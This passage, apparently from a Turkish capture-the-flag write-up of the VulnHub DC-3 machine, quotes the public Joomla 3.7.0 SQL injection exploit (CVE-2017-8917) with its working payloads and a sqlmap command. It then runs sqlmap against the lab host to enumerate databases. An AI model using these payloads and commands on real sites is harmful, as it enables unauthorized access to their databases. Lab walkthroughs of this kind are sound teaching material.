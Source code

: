```bash
---------------------------------------------- ---------------------------------
```
İkinci sırada yer alan exploit -m parametresi ile indirilip incelenir. Uygulamada SqlInjection zafiyeti oluğu görülmektedir. Sqlmap aracı kullanılarak zafiyet sömürülür.

```txt
Exploit Title: Joomla 3.7.0 - Sql Injection
# Date: 05-19-2017
# Exploit Author: Mateus Lino
# Reference: https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
# Vendor Homepage: https://www.joomla.org/
# Version: = 3.7.0
# Tested on: Win, Kali Linux x64, Ubuntu, Manjaro and Arch Linux
# CVE : - CVE-2017-8917


URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27


Using Sqlmap: 

sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]


Parameter: list[fullordering] (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (DUAL)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(CASE WHEN (1573=1573) THEN 1573 ELSE 1573*(SELECT 1573 FROM DUAL UNION SELECT 9674 FROM DUAL) END)

    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6600 FROM(SELECT COUNT(*),CONCAT(0x7171767071,(SELECT (ELT(6600=6600,1))),0x716a707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu)
```
İlk olarak veritabanları tespit edilir.

```bash
sqlmap -u "http://192.168.56.111/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
{{< image src="/images/vulnhub/dc3/sqlmap.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Tespit edilen joomla veritabanı seçilerek, veritabanında yer alan tablolar tespit edilir.
